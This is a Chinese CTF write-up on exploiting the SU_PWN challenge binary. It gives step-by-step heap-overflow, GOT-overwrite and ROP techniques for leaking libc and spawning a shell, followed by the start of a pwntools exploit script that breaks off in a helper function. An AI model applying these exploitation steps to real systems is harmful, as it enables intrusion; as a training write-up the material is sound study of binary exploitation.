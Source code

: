 ### 漏洞利用

我在做这个题目的时候由于没有发现栈未初始化漏洞，没有办法泄漏栈地址。导致这个题目我做的非常蛋疼，我用了自己的思路构造了技巧性比较强的一个ROP把这个题目做出来了，可惜是比赛后做出来的。不管怎样，先简单说说出题人的标解的思路吧。

1. 利用未初始化的栈漏洞泄漏栈地址
2. 利用堆溢出漏洞改写下一个node的next指针为栈中read函数的返回地址-8
3. 空跑一次循环，使得得到的node为之前被覆盖的next所指向的read函数的返回地址，通过read修改这个地址即可劫持控制流，并且可以通过read向read返回地址后栈地址写入0x80的ROPGadget，利用ROPGadget即可拿到shell

其实还是挺简单的，不过由于我在比赛时候并没有想到栈未初始化漏洞可以这么用(还是比赛经验不足啊，套路啊套路)，所以我并没有泄漏出栈地址。最后也做出来了。在这里我打算讲讲我的思路，因为我觉得我的做法技巧性还是很强的。

1. 利用堆溢出漏洞改写下一个node的next指针为puts_got的地址。
2. 空跑一次循环，使得得到的node为之前被覆盖的next所指向的puts_got地址，通过read修改GOT表项中的stack_check_failed函数为"A"*8,覆盖printf 一直到 exit函数之前为其本身的plt地址+6,覆盖exit为main函数的地址，这样在接下来的printf由于ld会对printf重新进行dlresolve，所以printf_got的地址会被dl_fixup改写为printf的函数地址，接着printf会将"A"*8+printf的地址打印出来，从而泄漏printf的地址，利用这个地址可以计算出system函数的地址以及libc中"/bin/sh\x00"字符串的地址
3. 输入10个100，触发程序调用exit，由于exit的地址已经被覆盖为main函数的地址，所以程序会返回main函数，因覆盖next而破坏的链表也将被修复。
4. 利用与1 2相同的套路改写GOT以及位于bss上的stdin，将setvbuf的地址覆盖为system的地址，将stdin的地址覆盖为/bin/sh\x00的地址，将printf覆盖为main函数的地址，这样在接下来的printf调用会将控制流劫持回main函数，由于setvbuf的地址已被修改为system的地址,stdin的值已被修改为/bin/sh\x00的地址，所以main函数的第一条语句setvbuf(stdin,0,2,0)则会使程序返回shell。

我这个做法相比标解技巧性就强了很多，也麻烦了很多，不过现在回过头来看也不是特别难，只是在探索返回shell的方法的时候踩了很多sb坑，犯了不少sb错误，导致做这个题目花了不少时间。

## Exploit

```
from pwn import *;

port=2333
objname = "SU_PWN"
objpath = "./"+objname
io = process(objpath)
elf = ELF(objpath)
context(arch="amd64", os="linux")
context.terminal = ["tmux", "splitw", "-h"]

def attach():
    gdb.attach(io, execute="source bp")

def readuntil(delim):
    data = io.recvuntil(delim);
    print data;
    return data;

def readlen(len):
    data = io.recv(len,1);
    return data;

def readall():
    data = io.recv(4096,1);
    print data;
    return data;

def write(data):
    io.send(str(data));
def writeline(data):
    io.sendline(str(data));

def padding(size):
    cf = "/bin/shcat/home/ctf/flag";
    paddata = "";
    for i in range(size):
        paddatax += cf[i%len(cf)];
```